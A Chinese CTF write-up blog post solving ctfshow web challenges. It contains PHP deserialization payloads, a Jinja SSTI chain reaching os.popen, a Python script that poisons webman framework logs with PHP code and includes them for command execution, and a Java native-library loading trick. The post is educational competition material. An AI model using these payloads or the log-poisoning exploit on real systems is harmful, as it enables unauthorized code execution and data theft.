





+++
title = "ctfshow单身杯二"
slug = "ctfshow-singles-cup-2"
description = "刷"
date = "2025-01-26T22:03:33"
lastmod = "2025-01-26T22:03:33"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php", "ssti", "flask"]
+++

## 签到·好玩的PHP

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);

    class ctfshow {
        private $d = '';
        private $s = '';
        private $b = '';
        private $ctf = '';

        public function __destruct() {
            $this->d = (string)$this->d;
            $this->s = (string)$this->s;
            $this->b = (string)$this->b;

            if (($this->d != $this->s) && ($this->d != $this->b) && ($this->s != $this->b)) {
                $dsb = $this->d.$this->s.$this->b;

                if ((strlen($dsb) <= 3) && (strlen($this->ctf) <= 3)) {
                    if (($dsb !== $this->ctf) && ($this->ctf !== $dsb)) {
                        if (md5($dsb) === md5($this->ctf)) {
                            echo file_get_contents("/flag.txt");
                        }
                    }
                }
            }
        }
    }

    unserialize($_GET["dsbctf"]);
```

可以直接用123过

```php
<?php

class ctfshow {
    public $d = '';
    public $s = '';
    public $b = '';
    public $ctf = '';
}
$a=new ctfshow();
$a->ctf=123;
$a->d="1";
$a->s="2";
$a->b="3";
echo urlencode(serialize($a));
```

还有特殊浮点数变量`NAN`和`INF`可以来进行

```php
<?php
class ctfshow {
    private $d = 'I';
    private $s = 'N';
    private $b = 'F';
    private $ctf = INF;
}

$dsbctf = new ctfshow();

echo urlencode(serialize($dsbctf));
```

## ez_inject

[自己出的](https://baozongwi.xyz/2024/11/13/DSBCTF2024/)

## ezzz_ssti

可以利用一个参数，也就是`config`里面的`update`进行不断的参数更新来使得绕过字符长度

```
   //此时字典中a的值被更新为config全局对象中的update方法
   //f的值被更新为lipsum.__globals__
          //o的值被更新为lipsum.__globals__.os
       //p的值被更新为lipsum.__globals__.os.popen
{{config.p("ls /").read()}}   

                          //输出config字典的所有键值对
                        //输出
```

## 迷雾重重

首先拿到了源码，先看控制器

```php
<?php

namespace app\controller;

use support\Request;
use support\exception\BusinessException;

class IndexController
{
    public function index(Request $request)
    {
        
        return view('index/index');
    }

    public function testUnserialize(Request $request){
        if(null !== $request->get('data')){
            $data = $request->get('data');
            unserialize($data);
        }
        return "unserialize测试完毕";
    }

    public function testJson(Request $request){
        if(null !== $request->get('data')){
            $data = json_decode($request->get('data'),true);
            if(null!== $data && $data['name'] == 'guest'){
                return view('index/view', $data);
            }
        }
        return "json_decode测试完毕";
    }

    public function testSession(Request $request){
        $session = $request->session();
        $session->set('username',"guest");
        $data = $session->get('username');
        return "session测试完毕 username: ".$data;

    }

    public function testException(Request $request){
        if(null != $request->get('data')){
            $data = $request->get('data');
            throw new BusinessException("业务异常 ".$data,3000);
        }
        return "exception测试完毕";
    }


}
```

本来以为是进行反序列化链子的挖掘，因为这里直接给了`unserialize`，但是找了一会`__destruct`和`__wakeup`，结果可以利用的都没有，session由于拿不到phpinfo也就不知道能不能包含了，那么就只剩下一个路由了，跟进`json_decode`发现什么用都没有，然后找view，发现这个



接着找`view`的文件夹`/vendor/workerman/webman-framework/src/support/`，然后找到`Raw.php`



可以参数覆盖进行文件包含，跟进`view`得到参数



而`$data`刚好我们可控我们可以进行任意文件包含，但是包含哪个文件呢，由于种种限制，最后选择使用框架日志文件进行包含，官方脚本

```python
import requests
import time
from datetime import datetime

# 注意 这里题目地址 应该https换成http
url="http://72d92051-cb33-4488-b72c-d20ec4221839.challenge.ctf.show/"

# Author: ctfshow h1xa
def get_webroot():
    print("[+] Getting webroot...")

    webroot = ""

    for i in range(1, 300):
        r = requests.get(
            url=url + 'index/testJson?data={{"name": "guest", "__template_path__": "/proc/{}/cmdline"}}'.format(i))
        time.sleep(0.2)
        if "start.php" in r.text:
            print(f"[\033[31m*\033[0m] Found start.php at /proc/{i}/cmdline")
            webroot = r.text.split("start_file=")[1][:-10]
            # print(r.text)
            print(f"Found webroot: {webroot}")
            break
    return webroot


def send_shell(webroot):
    # payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`ls%20/>{}/public/ls.txt`;?>"}}'.format(webroot)
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`cat%20/s00*>{}/public/flag.txt`;?>"}}'.format(
    webroot)
    r = requests.get(url=url + payload)
    time.sleep(1)
    if r.status_code == 500:
        print("[\033[31m*\033[0m] Shell sent successfully")
    else:
        print("Failed to send shell")


def include_shell(webroot):
    now = datetime.now()
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"{}/runtime/logs/webman-{}-{}-{}.log"}}'.format(
        webroot, now.strftime("%Y"), now.strftime("%m"), now.strftime("%d"))
    r = requests.get(url=url + payload)
    time.sleep(5)
    r = requests.get(url=url + 'flag.txt')
    if "ctfshow" in r.text:
        print("=================FLAG==================\n")
        print("\033[32m" + r.text + "\033[0m")
        print("=================FLAG==================\n")
        print("[\033[31m*\033[0m] Shell included successfully")
    else:
        print("Failed to include shell")


def exploit():
    webroot = get_webroot()
    send_shell(webroot)
    include_shell(webroot)


if __name__ == '__main__':
    exploit()
```

其中最重要的就是日志绝对路径的获取

## 简单的文件上传

黑盒，我们测试整理一下信息

- 可以上传jar后缀文件
- 可以删除上传后的jar包
- 输入jar文件名称，可以执行jar包
- 执行后 有执行回显

> 也就是说`java -jar` 命令前面加了 `-Djava.securityManager` 参数，`policy`文件内容未知
>
> 经过测试后，可以知道`jvm`对 `uploads` 有读权限，同时有`loadLibrary.*`权限

这个我不知道怎么测试出来的，但是有`loadLibrary.*`权限我们就可以加载恶意so文件，这里把后缀修改即可上传成功，那么写文件(直接用的官方的)



加载刚才的so文件，然后执行命令

```java
package com.ctfshow;

/* loaded from: JavaEngine.jar:com/ctfshow/CTFshowCodeManager.class */
public class CTFshowCodeManager {
    public static native String eval(String str);

    static {
        System.load("/var/www/html/uploads/CTFshowCodeManager.jar");
    }
}
```

```java
package com.ctfshow;

import java.io.IOException;

/* loaded from: JavaEngine.jar:com/ctfshow/Main.class */
public class Main {
    public static void main(String[] args) throws IOException {
        CTFshowCodeManager.eval("cat /secretFlag000.txt");
    }
}
```

打包成jar上传


